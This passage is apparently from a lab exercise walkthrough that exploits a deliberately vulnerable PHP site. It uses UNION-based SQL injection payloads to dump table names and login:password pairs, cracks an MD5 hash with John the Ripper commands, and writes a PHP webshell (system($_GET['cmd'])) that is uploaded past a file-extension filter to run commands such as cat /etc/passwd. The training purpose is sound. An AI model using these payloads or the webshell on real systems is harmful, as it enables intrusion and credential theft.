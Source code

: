 To retrieve this information, we can either

- put tablename and columnname in different parts of the injection: **1 UNION SELECT 1, table_name, column_name,4 FROM information_schema.columns**
- concatenate tablename and columnname in the same part of the injection using the keyword CONCAT: **1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns**. ':' is used to be able to easily split the results of the query.

*If you want to easily retrieve information from the resulting page using a regular expression (if you want to write an SQL injection script for example), you can use a marker in the injection: ``1 UNION SELECT 1,concat('^^^',table_name,':',column_name,'^^^') FROM information_schema.columns``. It then is really easy to match the result in the page.*

You have now a list of tables and their columns, the first tables and columns are the default MySQL tables. At the end of the HTML page, we can see a list of tables that are likely to be used by the current application.

Using this information, you can now build a query to retrieve information from this table:

**1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;**

And get the username and password used to access the administration pages.

*The SQL injection provided the same level of access as the user used by the application to connect to the database (current_user())... That is why it is always important to provide the lowest privileges possible to this user when you deploy a web application.*

### Access to the administration pages and code execution
#### Cracking the password
The password can be easily cracked using 2 different methods:

- A search engine
- John-The-Ripper http://www.openwall.com/john/

When a hash is unsalted, it can be easily cracked using a search engine like google. For that, just search for the hash and you will see a lot of websites with the cleartext version of your password.

John-The-Ripper can be used to crack this password, most modern Linux distribution include a version of John, in order to crack this password you need to tell John what algorithm has been used to encrypted it. For web application, a good guess would be MD5.

In most Linux distributions, the version of John-The-Ripper provided only supports a small number of formats. You can run john without any arguments to get a list of the supported formats from the usage information. For example on Fedora, the following formats are supported:

```sh
$ john
\# ...usage information...
--format=NAME              force hash type NAME: DES/BSDI/MD5/BF/AFS/LM/crypt
\# ...usage information...
```

Unfortunately, the MD5 available is not the format created by the PHP function md5. In order to crack this password, we will need a version of John supporting raw-md5. The community-enhanced version available on the main website supports raw-md5 and can be used.

Now we need to provide the information in the right format for John, we need to put the username and password on the same line separated by a colon ':'.

admin:8efe310f9ab3efeae8d410a8e0166eb2

The following command line can be used to crack the password previously retrieved:

```sh
$ ./john password --format=raw-md5  --wordlist=dico --rules
```
The following options are used:

- **password** tells john what file contains the password hash
- **--format=raw-md5** tells john that the password hash is in the raw-md5 format
- **--wordlist=dico** tells john to use the file dico as a dictionary
- **--rules** tells john to try variations for each word provided

John outputs the number of hashs matching the format used:
```
Loaded 1 password hash (Raw MD5 [SSE2 16x4x2 (intr)])
```
This provides an indication that the correct format is used.

You can retrieve the password really quickly:
```sh
$ ./john password --format=raw-md5  --wordlist=dico --rules
Loaded 1 password hash (Raw MD5 [SSE2 16x4x2 (intr)])
P4ssw0rd         (admin)
```

### Uploading a Webshell and Code Execution
Once access to the administration page is obtained, the next goal is to find a way to execute commands on the operating system.

We can see that there is a file upload function allowing a user to upload a picture, we can use this functionality to try to upload a PHP script. This PHP script once uploaded on the server will give us a way to run PHP code and commands.

First we need to create a PHP script to run commands. Below is the source code of a simple and minimal webshell:

```php
<?php
  system($_GET['cmd']);
?>
```

This script takes the content of the parameter cmd and executes it. It needs to be saved as a file with the extension .php, for example: shell.php can be used as a filename.

We can now use the upload functionality available at the page: http://vulnerable/admin/new.php and try to upload this script.

We can see that the script has not been uploaded correctly on the server. The application prevent file with an extension .php to be uploaded. We can however try:
- **.php3** which will bypass a simple filter on .php
- **.php.test** which will bypass a simple filter on .php and Apache will still use .php since in this configuration it doesn't have an handler for .test

Now, we need to find where the PHP script, managing the upload put the file on the web server. We need to ensure that the file is directly available for web clients. We can visit the web page of the newly uploaded image to see where the **<img>** tag is pointing to:

```html
      <div class="content">
        <h2 class="title">Last picture: Test shell</h2>
        
        <div class="inner" align="center">
          <p>
            <img src="admin/uploads/shell.php3" alt="Test shell" /> </p>
        </div>
     </div>
```

you can now access the page at the following address and start running commands using the cmd parameter. For example, accessing http://vulnerable/admin/uploads/shell.php3?cmd=uname will run the command **uname** on the operating system and return the current kernel (**Linux**).

Other commands can be used to retrieve more information:
- **cat /etc/passwd** to get a full list of the system's users;
- uname -a to get the version of the current kernel;
- ls to get the content of the current directory;
- ...

The webshell has the same privileges as the web server running the PHP script, you won't for example be able to retrieve the content of the file /etc/shadow since the web server doesn't have access to this file (however you should still try in case an administrator made a mistake and changed the permissions on this file).

Each command is run in a brand new context independently of the previous command, you won't be able to get the contents of the /etc/ directory by running cd /etc and ls, **since the second command will be in a new context**. To get the contents of the directory /etc/, you will need to run ls /etc for example.

### Conclusion
This exercise showed you how to manually detect and exploit SQL injection to gain access to the administration pages. Once in the "Trusted zone", more functionality is often available which may lead to more vulnerabilities.

This exercise is based on the results of a penetration test performed on a website few years ago, but websites with these kind of vulnerabilities are still available on Internet today.

The configuration of the web server provided is an ideal case since error messages are displayed and PHP protections are turned off. We will see in another exercise on how SQL injections can be exploited in harder conditions, but in the meantime you can play with the PHP configuration to harden the exercise. To do so you need to enable **magic_quotes_gpc** and disable **display_errors** in the PHP configuration (**/etc/php5/apache2/php.ini**) and restart the web server (**/etc/init.d/apache2 restart**)